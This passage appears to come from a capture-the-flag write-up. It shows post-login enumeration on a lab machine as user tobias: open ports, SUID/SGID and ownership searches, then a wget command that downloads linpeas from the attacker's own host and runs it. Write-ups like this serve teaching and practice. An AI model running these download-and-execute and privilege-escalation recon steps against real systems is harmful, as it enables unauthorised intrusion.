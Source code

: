 And looking at /home we see user tobias:

```bash
ls /home
tobias
```

Let’s attempt to ssh:

```bash
ssh tobias@10.10.11.64
```

We are in.

Let’s look at the ports:

```bash
State             Recv-Q            Send-Q                       Local Address:Port                        Peer Address:Port            Process            
LISTEN            0                 128                                0.0.0.0:22                               0.0.0.0:*                                  
LISTEN            0                 10                               127.0.0.1:25                               0.0.0.0:*                                  
LISTEN            0                 70                               127.0.0.1:33060                            0.0.0.0:*                                  
LISTEN            0                 151                              127.0.0.1:3306                             0.0.0.0:*                                  
LISTEN            0                 10                               127.0.0.1:587                              0.0.0.0:*                                  
LISTEN            0                 4096                             127.0.0.1:8080                             0.0.0.0:*                                  
LISTEN            0                 511                                0.0.0.0:80                               0.0.0.0:*                                  
LISTEN            0                 4096                         127.0.0.53%lo:53                               0.0.0.0:*                                  
LISTEN            0                 128                                   [::]:22                                  [::]:* 
```

```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

#nothing interesting
```

```bash
find / -user tobias -ls 2>/dev/null
find / -group tobias 2>/dev/null
```

Let’s get linpeas:

```bash
wget -O linpeas.sh http://10.10.16.2:8001/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
